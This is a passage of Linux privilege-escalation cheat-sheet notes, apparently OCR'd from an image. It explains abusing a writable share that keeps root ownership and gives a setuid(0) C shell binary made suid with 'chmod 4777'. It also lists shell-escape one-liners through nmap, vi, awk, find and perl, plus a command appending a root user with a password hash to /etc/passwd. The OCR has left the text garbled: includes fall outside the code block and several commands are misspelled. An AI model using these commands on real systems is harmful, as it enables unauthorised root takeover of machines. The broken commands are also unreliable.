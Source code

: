 
If that succeeds then you can go to /tmp/share. There might be some interesting stuff there. But even if there isn't you might be able to exploit it.

If you have write privileges you can create files. Test if you can create files, then check with your low-priv shell what user has created that file. If it says that it is the root-user that has created the file it is good news. Then you can create a file and set it with suid-permission from your attacking machine. And then execute it with your low privilege shell.

This code can be compiled and added to the share. Before executing it by your low-priv user make sure to set the suid-bit on it, like this:
+
chmod 4777 exploit
#include <stdio.h>

#include <stdlib.h>
#include <sys/types.h>

#include <unistd.h>


```c
	int main()

		{

		    setuid(0);
    
		  system("/bin/bash");

		    return 0;

		}
```

# Shell Escape Techniques
Nmap
Nmap --interactive

vi
!bash 
Set shell=/bin/bash:shell

Awk
Awk'BEGIN {system("/bin/bash")}'\;

Find 
Find / -exec /usr/bin/awk 'BEGIN {sytem("/bin/bash")}'\;

pearl
Pearl –e 'exec "/bin/bash";'

# Adding user to /etc/passwd 
echo "firefart:fik57D3GJz/tk:0:0:pwned:/root:/bin/bash" >> /etc/passwd
